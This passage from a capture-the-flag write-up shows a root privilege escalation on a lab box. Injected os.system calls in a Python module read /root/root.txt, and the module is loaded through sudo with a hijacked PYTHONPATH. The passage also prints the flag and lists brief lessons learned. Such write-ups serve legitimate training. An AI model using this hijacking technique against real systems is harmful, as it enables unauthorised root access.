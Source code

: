 So we can change it to get a shell or the flag or whatever we want. 
and then run it. What i put into the script to get the flag. 

```python
os.system('whoami')
os.system('ls -l /root/')
os.system('cat /root/root.txt')
```

```shell
sudo PYTHONPATH=/home/waldo/python3.5 /opt/scripts/admin_tasks.sh 
```
And then we of course need to select 6 to backup the web because otherwise the python will not be loaded. 


![](Pasted image 20250130171644.png)

Flag: `ba179b99b83145c1445d9ebf20f2b003`
---

## Lessons Learned
- **Key Takeaways:**

> [!Success] Page Fuzzing 
> If I cannot access a parent folder, I may still read its sub folders and items.


> [!Success] Development/ Backups  
> Even if i see a development set this does not mean it is exactly the same as the development or backup. 

> [!Success] Intuiton
> The intution is often right so follow it. 